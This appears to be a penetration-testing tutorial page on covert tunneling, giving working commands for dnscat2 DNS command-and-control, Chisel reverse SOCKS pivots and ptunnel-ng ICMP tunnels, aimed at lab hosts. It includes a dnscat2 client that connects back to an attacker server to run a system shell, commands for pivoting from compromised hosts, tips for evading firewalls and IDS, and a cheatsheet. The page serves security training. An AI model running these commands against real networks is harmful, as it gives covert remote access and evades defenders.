



# 🌐 Advanced Tunneling

When SSH is unavailable and standard TCP tunnels are blocked by firewalls, you need to think creatively. This section covers tunneling techniques that abuse *allowed* protocols — DNS, ICMP, and HTTP — to smuggle your traffic through restrictive network environments.

---

## 1. DNS Tunneling with Dnscat2

DNS is almost never blocked by firewalls — every network needs name resolution. Dnscat2 exploits this by encapsulating arbitrary data inside DNS queries and responses, creating a command-and-control channel that flies under most firewall rules.

### How It Works



The client encodes data into DNS queries (e.g., `data.encoded.yourdomain.com`), and the server decodes them and sends responses back through DNS TXT or CNAME records.

### Step 1: Set Up the Server (Attacker)

Install dnscat2 and start the server:

```bash
# Clone and build the server
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install

# Start the server (direct mode — no domain required for internal pivots)
sudo ruby dnscat2.rb --dns "domain=inlanefreight.local,host=10.10.14.18" --no-cache
```

!!! note
    **Direct mode vs Domain mode:** In lab/internal environments, you can use direct mode where the client connects straight to your server's IP. For internet-based C2, you'd register a domain and point its NS records to your server.

The server will output a **secret key** — you'll need this for the client.

### Step 2: Run the Client (Compromised Host)

On a Windows target, use the precompiled client:

```powershell
# Using the dnscat2-powershell client
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret <secret_key> -Exec cmd
```

On Linux:

```bash
# Compile from source
cd dnscat2/client/
make

# Run the client
./dnscat --dns "domain=inlanefreight.local,host=10.10.14.18" --secret=<secret_key>
```

### Step 3: Interact with Sessions

Once the client connects, you'll see a new session in the dnscat2 server console:

```text
dnscat2> windows
  0 :: main [active]
  1 :: command (victim01)

dnscat2> window -i 1
command (victim01) > shell
  Sent request to create shell
command (victim01) > window -i 2
  New window created: 2 [session: shell]
sh (victim01) > whoami
  nt authority\system
```

### Port Forwarding Through DNS

Dnscat2 supports port forwarding, allowing you to tunnel tools through the DNS channel:

```text
command (victim01) > listen 127.0.0.1:9050 172.16.5.19:3389
```

This creates a listener on your attack machine's port 9050 that forwards through the DNS tunnel to RDP on the internal target.

---

## 2. SOCKS5 Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP and secured via SSH. It's a single, statically compiled Go binary — no dependencies, works on both Linux and Windows, and tunnels through HTTP(S) which is rarely blocked by firewalls.

### Architecture



### Step 1: Start the Server on Your Attack Machine

```bash
# Download the latest release
# https://github.com/jpillora/chisel/releases

# Start in reverse mode — clients connect TO us
./chisel server -v -p 1234 --socks5
```

- `-p 1234` — Port to listen on
- `--socks5` — Enable SOCKS5 proxy mode
- `-v` — Verbose output

### Step 2: Run the Client on the Pivot Host

Transfer the chisel binary to the compromised host and connect back:

```bash
# Linux pivot
./chisel client -v 10.10.14.18:1234 socks
```

```powershell
# Windows pivot
.\chisel.exe client -v 10.10.14.18:1234 socks
```

Once connected, the server will output: `session#1: tun: proxy#127.0.0.1:1080=>socks`

### Step 3: Route Tools Through the Tunnel

Configure Proxychains:

```ini
[ProxyList]
socks5  127.0.0.1 1080
```

Now route your tools:

```bash
proxychains nmap -sT -Pn -p 22,80,3389 172.16.5.19
proxychains xfreerdp /v:172.16.5.19 /u:administrator
```

### Reverse SOCKS Proxy (Client Initiates)

When the pivot host can reach your server but not the other way around:

```bash
# Server (attacker) — enable reverse mode
./chisel server -v -p 1234 --reverse

# Client (pivot host) — create reverse SOCKS
./chisel client -v 10.10.14.18:1234 R:socks
```

This creates a SOCKS5 proxy on `127.0.0.1:1080` on the server side (your Kali), with traffic routed through the pivot host.

### Individual Port Forwarding

Instead of a full SOCKS proxy, you can forward specific ports:

```bash
# Forward local port 8080 to an internal web server
./chisel client 10.10.14.18:1234 8080:172.16.5.19:80

# Reverse forward
./chisel client 10.10.14.18:1234 R:8080:172.16.5.19:80
```

---

## 3. ICMP Tunneling with ptunnel-ng

ICMP (ping) is often allowed through firewalls even when all TCP and UDP ports are blocked. ICMP tunneling encapsulates TCP data inside ICMP echo request/reply packets, creating a covert channel.

`ptunnel-ng` is the modern fork of the original `ptunnel` tool, designed specifically for this purpose.

### How It Works



!!! warning
    **Detection:** ICMP tunneling creates an unusually high volume of ICMP traffic with abnormally large packet sizes. Any IDS/IPS worth its salt will flag this. Use sparingly and only when other protocols are blocked.

### Installation

```bash
# Clone and build
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
./autogen.sh && make
```

### Step 1: Start the Server on the Pivot Host

```bash
# On the compromised pivot host
sudo ./ptunnel-ng -r10.129.202.64 -R22
```

- `-r` — Address to listen on
- `-R22` — Remote port to forward (SSH in this case)

### Step 2: Connect from Your Attack Machine

```bash
# On Kali — connect to the ICMP tunnel and forward SSH
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

- `-p` — Peer address (the ptunnel-ng server / pivot host)
- `-l2222` — Local port to listen on
- `-r` and `-R` — Remote address and port to reach through the tunnel

### Step 3: SSH Through the ICMP Tunnel

```bash
# SSH to your local port, which tunnels through ICMP to the pivot's SSH
ssh -p 2222 -l ubuntu 127.0.0.1
```

### Chaining with Dynamic Port Forwarding

Once you have SSH through the ICMP tunnel, you can create a full SOCKS proxy:

```bash
# Create a SOCKS proxy through the ICMP tunnel
ssh -D 9050 -p 2222 -l ubuntu 127.0.0.1
```

Now configure Proxychains and route all your tools through ICMP!

---

## 4. Comparison Matrix

| Feature | Dnscat2 | Chisel | ptunnel-ng |
| :--- | :--- | :--- | :--- |
| **Protocol** | DNS | HTTP/HTTPS | ICMP |
| **Speed** | Slow (DNS limitations) | Fast | Moderate |
| **Stealth** | High (DNS is expected) | Medium (HTTP is common) | Low (anomalous ICMP) |
| **Dependencies** | Ruby (server), varies (client) | None (static binary) | Requires compilation |
| **OS Support** | Linux, Windows (PowerShell) | Linux, Windows, macOS | Linux |
| **SOCKS Support** | Port forwarding only | Full SOCKS5 | Via SSH chaining |
| **Best For** | Heavily firewalled networks | General-purpose tunneling | Last-resort when all else fails |

---

## 5. Cheatsheet

| Tool | Role | Command |
| :--- | :--- | :--- |
| **Dnscat2** | Server | `sudo ruby dnscat2.rb --dns "domain=<domain>,host=<ip>" --no-cache` |
| **Dnscat2** | Client (PS) | `Start-Dnscat2 -DNSserver <ip> -Domain <domain> -PreSharedSecret <key> -Exec cmd` |
| **Dnscat2** | Port Forward | `listen 127.0.0.1:<lport> <target>:<rport>` |
| **Chisel** | Server | `./chisel server -v -p 1234 --socks5` |
| **Chisel** | Client | `./chisel client -v <server>:1234 socks` |
| **Chisel** | Reverse SOCKS | Server: `--reverse` / Client: `R:socks` |
| **ptunnel-ng** | Server | `sudo ./ptunnel-ng -r<ip> -R22` |
| **ptunnel-ng** | Client | `sudo ./ptunnel-ng -p<pivot> -l<lport> -r<pivot> -R22` |
